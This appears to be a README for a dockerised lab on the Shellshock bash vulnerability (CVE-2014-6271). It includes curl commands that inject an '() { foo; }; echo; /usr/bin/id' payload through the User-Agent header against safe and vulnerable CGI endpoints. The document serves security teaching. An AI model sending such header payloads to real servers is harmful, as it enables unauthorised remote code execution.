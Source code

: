 # 2. SHELLSHOCK

## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```

![image](https://user-images.githubusercontent.com/31791455/140388921-a01d5ec8-6823-4448-af41-508a4f3a1b75.png)


### Explanation
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface \
https://en.wikipedia.org/wiki/Shellshock_(software_bug) \
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf \
https://www.tutorialspoint.com/python/python_cgi_programming.htm

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
